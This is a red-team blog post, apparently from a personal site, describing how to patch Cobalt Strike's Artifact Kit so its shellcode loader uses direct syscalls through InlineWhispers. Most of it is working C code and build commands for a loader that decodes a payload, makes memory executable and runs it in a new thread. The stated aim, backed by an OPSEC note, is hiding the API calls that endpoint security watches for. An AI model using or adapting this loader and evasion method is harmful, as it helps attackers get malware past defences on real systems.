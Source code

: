 ```yaml
---
title: Integrating Direct Syscalls in Cobalt Strike's Artifact Kit
date: 2022-06-10 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
#layout: post
description: Using InlineWhispers to implement Direct Syscalls in Cobalt Strike's Artifact Kit
---
```


<p align="center">
     <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/cobaltsyscalls/syscalls.png">
</p>

## Resources

[Using Direct Syscalls from Beacon Object Files and MinGW](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)

[Implementing Syscalls in the Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)

[Using Direct Syscalls in Cobalt Strike's Artifact Kit - YT](https://www.youtube.com/watch?v=mZyMs2PP38w&t=21s&ab_channel=RaphaelMudge)

[InlineWhispers](https://github.com/outflanknl/InlineWhispers)

## Methodology

1. Find function calls you would like to replace in a function module like `spawn`:
	- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
	- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`
2. Add the required functions in `functions.txt` which uses `syscalls.asm` (generated by Syswhispers1) and generates `syscalls-asm.h` to incorporate functions specified: `python3 InlineWhispers.py`
	- Copy over `syscalls-asm.h` and `Syscalls.h` to `src-common/`. 
3. Replace `Windows.h` in `Syscalls.h` to `windows.h`
4. To use the generated `inline-assembly` using the `mingw` compiler, we change the dialect of masm to the *intel syntax* (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)).
	- Edit `build.sh` and the the dialect to the `$options` variable: `export options= -0s -masm=intel`
5. Edit `patch.c` as an example template. Split `x64` and `x86` code as they require seperate versions of inline-whispers. Add the `syscalls-asm.h` header to include the functions.
	```c
	#elif _M_X64
	#include "syscalls-asm.h"
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}

	#else
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}
	#endif
	```
6. Setup requirements to replace the functions calls. (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/))
	1. Start by grabbing the approprate function prototypes and incorporating it in the program.

	```c
	[.............]
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	} [................]
	```
	2. Add variables as required/stated in the blog.
	```c
	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;

	        [.........]
	```
	- Replace `ptr` in the function module to the `base_address` variable defined above to stay in convention with the variables in the blog.
7. Replace the function calls to their NT equivalents similar to the blog.
	- Replace `VirtualAlloc()` with: `NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`
		- Replace `calc_len to length`
	- Replace `VirtualProtect()` with: `NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);`
		- Replace `calc_len to length`
		- Replace `oldprotect` to `old`
	- Replace `CreateThread` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);`
		- Declare the variable `HANDLE thandle = NULL` 
		> **OPSEC**: `NtCreateThreadEx` starts the thread using `base_addr` which has a start address that is not backed by a module on disk.
		- Replace `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);` to make the start address the `run` function and the `base_addr` is passed as an argument. 
	- Sample: (Replace `injector.c` and `patch.c` similarly to implement direct syscalls in all artifacts)
	```c
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	}

	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;
	        HANDLE thandle = NULL;

	        /* allocate the memory for our decoded payload */
	        /*base_addr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);*/
	        NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	        int x;
	        for (x = 0; x < length; x++) {
	                char temp = *((char *)buffer + x) ^ key[x % 4];
	                *((char *)base_addr + x) = temp;
	        }

	        /* propagate our key function pointers to our payload */
	        set_key_pointers(base_addr);

	        /* change permissions to allow payload to run */
	        /*VirtualProtect(base_addr, length, PAGE_EXECUTE_READ, &old);*/
	        NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &old);

	        /* spawn a thread with our data */
	        /*CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, base_addr, 0, NULL);*/
	        NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);
	}
	```
8. Validate the syscalls: `VirtualAlloc()`, `VirtualProtect()` and `CreateThread` shouldn't appear now.
	- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
	- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`
> **NOTE**: `VirtualProtect` and `VirtualQuery` are called by C runtimes linked into the default mingw 64bit binaries hence these functions still appear in the import table.